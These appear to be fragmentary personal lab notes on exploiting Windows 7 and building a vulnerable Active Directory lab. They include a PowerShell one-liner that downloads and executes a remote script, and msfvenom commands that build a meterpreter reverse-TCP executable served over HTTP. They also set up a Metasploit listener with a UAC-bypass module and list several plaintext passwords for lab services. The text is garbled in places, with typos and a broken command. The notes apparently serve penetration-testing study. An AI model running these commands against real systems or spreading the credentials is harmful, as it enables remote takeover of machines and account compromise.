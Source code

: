



```bash
 [Net.ServicePointManager]::SecurityProtocol = "Tls12, Tls11, Tls, Ssl3" IEX((new-object net.webclient).downloadstring("https://raw.githubusercontent.com/chinnidiwakar/vulnerable-AD/master/vulnad.ps1"));
Invoke-VulnAD -UsersLimit 100 -DomainName "cpen.ac"
setspn -s http/WinServer12.cpen.ac:80 dccoadmin

```

## hacking windows 7 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALIIP LPORT=1234 -f exe -o
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.106 LPORT=1234 -f exe -o file.exe
file.exe
pythons -m http.server 80
```


```bash
msfdb run
use multi/handler
set PAYLOAD payload/windows/meterpreter/reverse_tcp  
set LHOST 192.168.0.116
set LPORT 1234
exploit 
```


```bash
use  exploit/windows/local/bypassuac

```


- p- gitlab - Zy3pU2r$kV*XFaeM
- win server 12 - May@123
- ne4j
	- u- neo4j
	- p- may@123
- bloodhound 
- u -admin 
- p -jy8u@LH!bJMGrkDK

- dowlload .netframe work 
- username  - WIN7\win7
- 

# 08WindowsExploitation and PrivilegeEscalation



### Exploiting Windows 7  
### How to add windows machine to active directory
1. go to control panel then -> system properties 
2. then click on change 
